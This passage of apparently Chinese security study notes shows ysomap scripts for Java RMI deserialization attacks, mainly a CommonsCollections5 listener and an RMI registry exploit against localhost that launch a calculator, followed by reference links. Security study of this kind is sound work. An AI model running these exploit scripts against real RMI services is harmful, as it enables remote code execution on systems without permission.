 ### ysomap
```bash
java -jar ysomap.jar script ../../scripts/exploits/rmi_listener_cc.yso
```
rmi_listener_cc.yso
```bash
use exploit RMIListener
use payload CommonsCollections5
use bullet TransformerWithTemplatesImplBullet
set lport 12345
set args "mate-calc"
run
```

## JRMPListener 攻击 Registry

### ysomap

```bash
java -jar ysomap.jar script ../../scripts/exploits/rmi_registry_exploit.yso
```
rmi_registry_exploit.yso
```bash
use exploit RMIListener
use payload CommonsCollections5
use bullet TransformerBullet
set lport 12345
set command "mate-calc"
run

use exploit RMIRegistryExploit
use payload RMIConnectWithUnicastRemoteObject
use bullet RMIConnectBullet
set target localhost:1099
set rhost 127.0.0.1
set rport 12345
run
```

# 参考
- [JAVA 协议安全笔记-RMI篇 - 跳跳糖](https://tttang.com/archive/1430/#toc_server)
- [Dynamic code downloading using Java RMI](https://docs.oracle.com/javase/8/docs/technotes/guides/rmi/codebase.html)
- [qtc-de/remote-method-guesser：Java RMI 漏洞扫描器](https://github.com/qtc-de/remote-method-guesser)
- [最后一次再谈JNDI - Dem0のblog](https://dem0dem0.top/2022/06/01/%E6%9C%80%E5%90%8E%E4%B8%80%E6%AC%A1%E5%86%8D%E8%B0%88jndi/)
- [漏洞复现-java\_rmi远程命令执行 - 铺哩 - 博客园](https://www.cnblogs.com/cute-puli/p/15598817.html)
- [针对RMI服务的九重攻击 - 上 - 先知社区](https://xz.aliyun.com/t/7930)
- [Java RMI服务与攻击源码解析 - 简书](https://www.jianshu.com/p/7ef5ffa38dfa)
- [Trinhs RMI 注册表绕过 - 莫格瓦伊实验室](https://mogwailabs.de/en/blog/2020/02/an-trinhs-rmi-registry-bypass/)
- [RMI-JEP290的分析与绕过-安全客 - 安全资讯平台](https://www.anquanke.com/post/id/259059#h2-3)